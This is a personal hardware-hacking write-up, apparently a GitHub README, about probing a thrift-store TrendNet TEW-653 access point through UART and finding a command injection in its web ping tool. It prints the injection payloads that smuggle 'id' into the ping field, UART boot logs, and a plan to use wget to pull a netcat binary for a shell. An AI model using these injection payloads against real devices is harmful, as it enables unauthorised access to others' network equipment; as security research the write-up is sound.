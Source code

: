# Trendnet
I found a brand new (still sealed!) TrendNet TEW-653 AP at a local thrift store for $4.99
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3809.png?raw=true">

# Locating UART
I found an area on the board that looked like UART, with a multimeter I found what I think is ground, Send and Recieve:
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3994.png?raw=true">

# Testing UART
I hooked up my flipper zero and connect like normal, after playing around with different baud rates it seems like to 57600.
```
U-boot Ver:1.0.1.30 2009/10/12


Board: Ralink APSoC DRAM:  32 MB  1*32 MB
============================================ 
ASIC 3052_MP2 (Port5<->None)
Product Name: EAP9550
SDRAM CAS = 3(d1835272) 
============================================ 

Please choose the operation: 
   1: Load system code to SDRAM via TFTP. 

LINUX started...
init started: BusyBox v1.7.5 (2011-06-30 16:53:57 CST)
starting pid 131, tty '/dev/console': '/sbin/config_init'
Config Init version: 1.2.2.98 date: 2011/06/30
starting pid 174, tty '/dev/ttyS1': '/sbin/config_term'
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> cat: can't open '/apps/lib/modules/2.6.21/modulesApp.dep': No such file or directory
ln: /sbin/./apps_init: File exists
sh: cannot create /proc/senao/ip_conntrack_interface: nonexistent directory

```

It seemed like the UART shell was limited. Even though I was looking at a prompt, it didn't respond to common commands:
```
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> help
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ls
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ?
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> whoami
************************************************************************
*                                TEW-653AP                             *
************************************************************************
```
I did find an old DD-WRT forum post in which a user suggests you can enter 1,2,4 or 9 at the prompt (2,4 and 9 are hidden options). I tried these options but did not notice any changes:
https://forum.dd-wrt.com/phpBB2/viewtopic.php?t=89254&postdays=0&postorder=asc&start=15

# Command Injection
I noticed on the Tools > Diagnostic menu there was a ping utility, provide an IP address and the AP will attempt to ping the target. This looked like a command injection to me, I played around with it for a bit and was unable to get it to work.

I did notice if I provided a payload such as:
```
192.168.10.10'|id|'
```
Then the AP would continue to ping the target IP, regardless of how many counts were provided. I observed the continous ping in wireshark. This led me to believe there is something interesting happening here.

# UART Logs
While connected to the UART, I continued to test the ping functionality. While providing the following payload:
```
192.168.10.101"$(id)"
```
I noticed the following in the UART console:
```
ping bad address uid=0
```

This confirmed there is in fact a command injection, I can see in the UART console log that the _id_ command did execute. it appears the output from the _id_ command was fed into the ping command.

# Trying for a shell
After confirming the command injection, I wanted to get a shell on the device. I tried many different payloads, but nothing was working and the limited output of the UART console was making it hard to tell what exactly was failing. I thought it would be helpful to know what applets were on this busybox, and if netcat was present at all. So I made a wordlist of all busybox applets from here: https://busybox.net/downloads/BusyBox.html I then used BurpSuite's Intruder to send each applet inside my command injection payload, and logged the UART shell output. I found the following applets installed:
```
cat binaries.txt       
ping: bad address 'sbin/arp'
ping: bad address 'sbin/brctl'
ping: bad address 'sbin/dumpleases'
ping: bad address 'sbin/httpd'
ping: bad address 'sbin/ifconfig'
ping: bad address 'sbin/ifdown'
ping: bad address 'sbin/ifup'
ping: bad address 'sbin/init'
ping: bad address 'sbin/insmod'
ping: bad address 'sbin/lsmod'
ping: bad address 'sbin/modprobe'
ping: bad address 'sbin/reset'
ping: bad address 'sbin/rmmod'
ping: bad address 'sbin/route'
ping: bad address 'sbin/sysctl'
ping: bad address 'sbin/syslogd'
ping: bad address 'sbin/udhcpc'
ping: bad address 'sbin/udhcpd'
ping: bad address 'sbin/vconfig'
ping: bad address 'sbin/wget'
ping: bad address 'bin/ash'
ping: bad address 'bin/ash'
ping: bad address 'bin/cat'
ping: bad address 'bin/chmod'
ping: bad address 'bin/cp'
ping: bad address 'bin/date'
ping: bad address 'bin/df'
ping: bad address 'bin/dmesg'
ping: bad address 'bin/echo'
ping: bad address 'bin/grep'
ping: bad address 'bin/ip'
ping: bad address 'bin/kill'
ping: bad address 'bin/ln'
ping: bad address 'bin/ls'
ping: bad address 'bin/mkdir'
ping: bad address 'bin/mknod'
ping: bad address 'bin/mv'
ping: bad address 'bin/netstat'
ping: bad address 'bin/nice'
ping: bad address 'bin/pidof'
ping: bad address 'bin/ping'
ping: bad address 'bin/ps'
ping: bad address 'bin/pwd'
ping: bad address 'bin/rm'
ping: bad address 'bin/sh'
ping: bad address 'bin/sleep'
ping: bad address 'bin/stty'
ping: bad address 'bin/sync'
ping: bad address 'bin/touch'
ping: bad address 'bin/true'
ping: bad address 'bin/umount'
ping: bad address 'bin/uname'
```
It doesn't look like theres much to work with, and nc missing so any netcat shells won't work.

# Bring my own binary?
I noticed wget is present, and I confirmed it worked by using the command injection to download a txt file from my laptop. So I thought maybe I can just compile a version of netcat for the AP, then use wget to retrieve it.  While looking at the board I noticed there was a piece of metal (a heatsink?) on top of the processor:
pic here

So I thought, I'll just pop that off so I can see specifically what the processor is. I did that and found it was a RaLink (which should have been obvious because I saw Ralink the UART prompt previously):
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3999.png?raw=true">

# Bummer
With the specific model number for the processor I did some research. It's a MIPS processor, and so any binary I compile would need to be MIPS. This led me down a rabbit hole researching cross compiling, and trying to find shells or mips backdoors other people have created. I did find an interesting one here that was created for a trendnet switch: https://osandamalith.com/2015/10/11/how-to-turn-your-switch-into-a-snitch/

I was excited to try this out, I started by compiling a simple hello world binary. I got everything ready and then..... 

The AP no longer powers up. Previously on boot, LEDs would flash, I don't see those anymore. I don't see it broadcasting it's default SSID, and I get nothing on the UART port. When I test with my multimeter, I don't see any voltage coming from the TX pin on the UART.

Womp Womp

I don't know what I did wrong, I didn't think removing the heatsink would break the AP, but I guess it did. That's all for now, maybe I can find another AP in the future.


